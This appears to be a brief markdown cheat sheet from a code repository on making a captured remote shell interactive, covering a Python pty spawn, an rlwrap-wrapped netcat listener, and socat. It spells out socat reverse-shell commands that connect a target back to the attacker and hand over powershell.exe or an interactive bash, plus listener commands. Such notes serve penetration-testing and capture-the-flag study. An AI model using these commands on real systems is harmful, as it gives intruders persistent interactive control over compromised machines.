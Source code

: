 # Shell Stabilizing Techniques

## Technique 1: Python

**Step 1: uses Python to spawn a better featured bash. Some versions may used python2 or python3, change if necessary**
```JavaScript
python -c 'import pty;pty.spawn("/bin/bash")'
````

**Step 2: Gives us access to commands such as clear**
```JavaScript
export TERM=xterm
```

**Step 3:**

- Background the shell with CTRL + Z

- In your own terminal, use the command below. This will turn off your own terminal and foregrounds the shell 
```JavaScript
stty raw -echo; fg
```


## Technique 2: rlwrap

**Install rlwrap**
```JavaScript
sudo apt install rlwrap
```

**Usage**
```JavaScript
rlwrap nc -lvnp <port>
```

### Use the third step in technique 1 as the final step for Technique 2


## Technique 3: Socat

* This tecnique is limited to linux machines
* You must also transfer the socat static compiled binary up to the target machine



## Socat Reverse Shells

**Basic Syntax: The following is equivalent to nc -nlvp <port>**
```JavaScript
socat TCP-L:<port> -
```
  
On Windows we would use this command to connect back
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

This is the equivalent command for a Linux Target
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
  

  


